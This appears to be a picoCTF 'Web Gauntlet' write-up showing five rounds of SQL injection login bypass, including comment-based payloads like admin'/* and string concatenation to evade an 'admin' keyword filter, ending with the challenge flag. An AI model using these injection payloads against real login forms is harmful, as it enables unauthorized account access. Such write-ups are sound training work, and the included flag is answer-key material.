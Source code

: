 ### Web Gauntlet

http://jupiter.challenges.picoctf.org:42961/index.php

http://jupiter.challenges.picoctf.org:42961/filter.php

SQL Injection challenge where one must bypass increasingly difficult filters

query structure 
```sql
SELECT * FROM users WHERE username='' AND password=''
```

#### Round 1

filters: actually completed this before checking :s

bypassed by a username of `admin'--` to comment out the rest of the query

```sql
SELECT * FROM users WHERE username='admin'--' AND password=''
```

#### Round 2

filters `Round2: or and like = --`


this is bypassed by a username of `admin'/*` inline comment removes the rest of the query as we can't use `--` anymore with the new filter

```sql
SELECT * FROM users WHERE username='admin'/*' AND password=''
```

#### Round 3

filters `Round3: or and = like > < --`


feel like this isn't intended but oh well, same inline comment bypass works again `admin'/*` 

```sql
SELECT * FROM users WHERE username='admin'/*' AND password=''
```

#### Round 4

filters `Round4: or and = like > < -- admin`


used string concatenation to bypass admin filter `ad'||'min'/*` 

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password=''
```

#### Round 5

filters `Round5: or and = like > < -- admin union`


same again, feel like this maybe wasn't intended haha `ad'||'min'/*` 

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password=''
```

flag picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}

